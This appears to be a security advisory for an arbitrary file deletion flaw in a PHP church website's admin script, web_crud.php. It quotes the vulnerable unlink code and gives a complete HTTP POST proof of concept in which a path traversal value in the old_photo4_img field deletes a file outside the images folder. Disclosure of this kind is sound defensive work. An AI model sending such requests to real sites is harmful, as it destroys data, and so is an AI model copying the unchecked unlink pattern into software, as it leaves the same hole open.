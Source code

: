 ### Vulnerability file address

In line 295 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo4_img']);`,` $_POST['old_photo4_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['photo4']['tmp_name'] != '') {
            $img4 = generateUniqueFilename($_FILES['photo4']);
            $filepath = "../../assets/images/" . $img4;

            if (move_uploaded_file($_FILES["photo4"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photo4_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 374

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update5"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo4_img"

../../11.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo4";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `11.txt` file in the `church/` directory

![image-20250505155724965](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051557021.png)



Then we execute the above poc to attack

![image-20250505155811825](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051558855.png)



Files are deleted after the attack is successful

![image-20250505160326536](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051603574.png)